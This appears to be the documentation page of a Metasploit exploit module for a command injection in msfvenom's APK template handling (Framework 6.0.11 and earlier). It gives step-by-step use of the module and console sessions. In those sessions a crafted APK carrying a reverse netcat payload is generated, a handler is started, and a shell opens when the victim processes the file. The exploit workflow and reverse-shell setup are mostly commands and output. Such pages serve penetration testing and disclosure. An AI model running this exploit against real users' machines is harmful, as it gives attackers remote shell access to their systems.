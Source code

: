 ## Vulnerable Application

Metasploit Framework's `msfvenom` is vulnerable to a command injection
vulnerability when the user provides a crafted APK file to use as an Android
payload template. A "template" file in this context is an existing APK file,
within which an Android payload will be embedded.

The vulnerability affects Metasploit Framework <= 6.0.11 and Metasploit Pro <=
4.18.0

A copy of the vulnerable software can be obtained by:

* Using an old installer (e.g. <https://github.com/rapid7/metasploit-framework/releases/tag/6.0.11>); or
* Setting up a dev environment (see <http://r-7.co/MSF-DEV>) and doing `git checkout 6.0.11`

Note that the vulnerable code depends upon the `apktool` and `zipalign` tools.
That is, regardless of the vulnerability, `msfvenom` needs these two binaries
on the PATH for it to even support APK templates.

Attempting to use `msfvenom` without these dependencies being installed:

```
% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: apktool not found. If it's not in your PATH, please add it.
```

These dependencies are available in Debian's standard repos:

```
% sudo apt update && sudo apt install apktool zipalign
<... SNIP ...>

% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: undefined method `[]' for nil:NilClass
```

The environment is now ready.

## Verification Steps

1. Install the vulnerable application
2. Start `msfconsole`
3. Do: `use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.apk` file to the machine running the vulnerable application
8. On the victim machine, do `msfvenom -p android/meterpreter/reverse_tcp -x msf.apk`
9. You should get a shell

Note: Due to the nature of the vulnerability, `bash` payloads are unlikely to
work. If you attempt to use them you will get a warning message when doing
`exploit`.

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[!] Warning: bash payloads are unlikely to work
[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

## Options

* `FILENAME` - the name of the APK file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### Metasploit Framework v6.0.11

Generate the APK file

```
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

Start a handler

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.18.0.3:4444
```

As the victim, use `msfvenom` to generate an Android payload using the
generated file as a template

```
% ./msfvenom -p android/meterpreter/reverse_tcp -x /home/justin/.msf4/local/msf.apk -o /dev/null
Using APK template: /home/justin/.msf4/local/msf.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
[*] Creating signing key and keystore..
[*] Decompiling original APK..
[*] Decompiling payload APK..
Error: No such file or directory @ rb_sysopen - /tmp/d20201025-4916-ewjqfp/original/AndroidManifest.xml
```

A shell session will be opened

```
[*] Command shell session 1 opened (172.18.0.3:4444 -> 172.18.0.3:56220) at 2020-10-25 22:13:43 +1100

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```
